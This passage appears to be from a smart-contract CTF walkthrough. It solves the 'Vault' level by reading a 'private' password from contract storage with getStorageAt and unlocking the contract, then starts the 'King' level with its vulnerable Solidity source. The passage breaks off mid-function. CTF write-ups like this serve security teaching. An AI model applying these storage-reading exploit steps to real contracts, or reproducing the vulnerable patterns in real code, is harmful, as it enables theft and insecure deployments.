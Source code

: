 Everything in the blockchain is public, even the private variables. We can use `web3.eth.getStorageAt` to get the contract's internal memory state at the position that we want.
In this case, the first position will be used by `locked`, which is a boolean. 
```
await web3.eth.getStorageAt('0x1c928492c8b0E2326270C5E05A7dBcB96aB124ED', 0)
"0x0000000000000000000000000000000000000000000000000000000000000001"
```
Since the Vault is locked, the value is 1.
Now, let's look at the position `1` to get the value of the `password`:
```
await web3.eth.getStorageAt('0x1c928492c8b0E2326270C5E05A7dBcB96aB124ED', 1)
"0x412076657279207374726f6e67207365637265742070617373776f7264203a29"
web3.utils.hexToString('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
"A very strong secret password :)"
```

That's the password as a string, but we need to send the hex to unlock, so let's do it:
```
await contract.unlock(web3.eth.getStorageAt('0x1c928492c8b0E2326270C5E05A7dBcB96aB124ED', 1))
```

After unlocking:
```
await web3.eth.getStorageAt('0x1c928492c8b0E2326270C5E05A7dBcB96aB124ED', 0)
"0x0000000000000000000000000000000000000000000000000000000000000000"
```

## 9. King

```
King
Difficulty 6/10

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

Sources
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
```